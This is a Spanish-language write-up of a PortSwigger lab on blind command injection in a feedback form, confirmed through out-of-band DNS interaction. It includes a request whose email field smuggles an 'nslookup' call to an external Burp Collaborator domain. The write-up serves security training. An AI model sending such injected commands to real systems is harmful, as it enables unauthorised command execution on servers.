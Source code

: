 ```yaml
---
title: "Blind command injection with out-of-band interaction"
description: "Laboratorio de Portswigger sobre Command Injection"
date: 2024-12-01 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - Command Injection
tags:
  - Portswigger Labs
  - Command Injection
  - Blind command injection with out-of-band interaction
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `Blind Command Injection` en la `función` de `comentarios`. La aplicación `ejecuta` un `comando` en la `terminal` que incluye `datos` proporcionados por el `usuario`. El `comando` se ejecuta de forma `asíncrona` y no tiene efecto en la `respuesta` de la aplicación. No es posible `redireccionar` la `salida` a una `ubicación` accesible. Sin embargo, podemos desencadenar `out-of-band interactions` con un `dominio externo`. Para resolver el `laboratorio`, debemos explotar la `vulnerabilidad` para realizar una `consulta DNS` a `Burp Collaborator`

---

## Guía de command injection

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de command injection` [https://justice-reaper.github.io/posts/Command-Injection-Guide/](https://justice-reaper.github.io/posts/Command-Injection-Guide/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Command-Injection-Lab-4/image_1.png)

Pulsamos en `Submit feedback` y vemos un `formulario`

![](/assets/img/Command-Injection-Lab-4/image_2.png)

Hacemos `click` sobre `Submit feedback` y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/Command-Injection-Lab-4/image_3.png)

La `respuesta` obtenida son unas `llaves vacías {}`

![](/assets/img/Command-Injection-Lab-4/image_4.png)

Nos dirigimos a `Burpsuite Collaborator` hacemos `click` en `Copy to clipboard`, debido a que no recibimos `ninguna respuesta` que indique que estamos `inyectando comandos`, esta es la única forma que podemos utilizar para ello, debemos usar este `payload` en los diferentes `campos` para ver si son `inyectables`

```
csrf=zRp2nJC1bIBQPQcICpkP7l9cHlAfYlE8&name=test&email=||nslookup+t712dnvp65v6mtbksuisdlxe95fw3rrg.oastify.com||&subject=test&message=test
```

Si nos vamos a `Burpsuite Collaborator` nuevamente veremos que hemos obtenido `dos peticiones DNS`

![](/assets/img/Command-Injection-Lab-4/image_5.png)
